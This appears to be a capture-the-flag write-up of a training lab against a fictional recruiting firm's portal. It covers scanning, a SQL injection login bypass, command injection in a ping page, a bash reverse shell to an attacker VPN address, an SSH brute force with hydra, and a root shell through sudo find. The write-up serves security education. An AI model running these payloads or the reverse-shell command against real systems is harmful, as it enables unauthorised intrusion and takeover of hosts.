

# Scenario

You are up for promotion at **Hadron Security**. Your senior lead, Mara, has handed you a solo engagement against **RecruitCorp**, a small recruiting firm with a public-facing portal. Compromise the host, capture the flags, and demonstrate that you are ready for the Penetration Tester title.

Start the VM by clicking the `Start Lab Machine` button at the top-right of the task. You can complete the challenge by connecting through VPN or the AttackBox, which contains all the essential tools.

Allow two to three minutes for all services to start.

# Questions



---

## Reconnaissance

Of course, the first thing is scanning 
`rustscan -a 10.48.142.220 --top -- -sV -sC` 





**Ports 22 (SSH), 80 (HTTP), 139 and 445 (SMB)** are open. So let's check the website first.





Since the website doesn't show any available features, I will use `gobuster` to discover hidden pages.

```bash
gobuster dir -u http://10.48.142.220/ \       
-w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt 
```



I found `/admin `and `/config`, but for the config page, we need authorization to access it.



---

## Login Bypass

The `/admin` page is a sign-in page.

So, maybe let's try to use SQL injection. I put `' OR 1=1--` as the username and a random password.



And it worked! This dashboard page has a feature to look up a user by ID




And I try to change the id parameter to another number, and it shows something interesting at ID number 7



We discover a new path `admin/sysmaint-checks/ping.php`



---

## Command Injection

This means we can ping a target via this url.



And I think this looks like it's vuln to **Command Injection**, so I try putting `;` after the IP address and injecting a command into it, and it really worked.



Then I will inject this command to perform a reverse shell
`bash -c "bash -i >& /dev/tcp/<YOUR_TRYHACKME_VPN_IP>/4444 0>&1"`

and use `nc -lvnp 4444` to wait for a connection.

but we have to encode this command into url format first using cyber chef.



---

## SSH Access

After connecting, I found a config directory that contains `db.conf.` This is a very important file.



But we are not able to crack the `db_pass_hash`. After getting stuck,


I remember the keyword `spring2026`. Now, we will create our own word lists using this keyword.






Then use `hydra` to **brute-force ssh.**



and we get the password



now connect to jford using these credentials and `cat user.txt` to get the flag



---

## Get Root

and we found 



`sudo -l` shows that `jford` can run `/usr/bin/find` as root without a password. Since `find` can execute another command, this looks useful for getting a root shell.

then I check with `GTFOBins`



use this command 

`sudo /usr/bin/find . -exec /bin/sh \; -quit`



and get the flag!




*DONE!!!*

---
